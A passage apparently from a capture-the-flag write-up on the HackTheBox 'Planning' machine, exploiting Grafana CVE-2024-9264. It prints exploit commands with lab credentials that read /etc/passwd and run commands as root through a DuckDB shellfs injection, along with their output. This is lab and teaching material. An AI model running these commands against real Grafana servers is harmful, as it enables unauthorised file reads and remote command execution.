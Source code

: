 Lets add the vhost we found to `/etc/hosts` to resolve the IP as we did for `planning.htb`:

`sudo nano /etc/hosts`

`10.10.11.68   grafana.planning.htb`

Now we will visualize a login form and we can login with the credentials they provided us at the beginning. By retriving informations like the Grafana version which is running we can look online and see that its vulnerable to `CVE-2024-9264`.

Sources of POCs used:
``` 
https://github.com/nollium/CVE-2024-9264
https://github.com/z3k0sec/File-Read-CVE-2024-9264/
```

With the use of these POCs, lets print `/etc/passwd`:

`python poc.py --url http://grafana.planning.htb/ --user admin --password 0D5oT70Fq13EvB5r --file /etc/passwd`

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
grafana:x:472:0::/home/grafana:/usr/sbin/nologin
```

Lets check who we are exactly while running these commands:

`python CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c whoami http://grafana.planning.htb`

```
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Executing command: whoami
[+] Successfully ran duckdb query:
[+] SELECT 1;install shellfs from community;LOAD shellfs;SELECT * FROM read_csv('whoami >/tmp/grafana_cmd_output 2>&1 |'):
[+] Successfully ran duckdb query:
[+] SELECT content FROM read_blob('/tmp/grafana_cmd_output'):
root
```
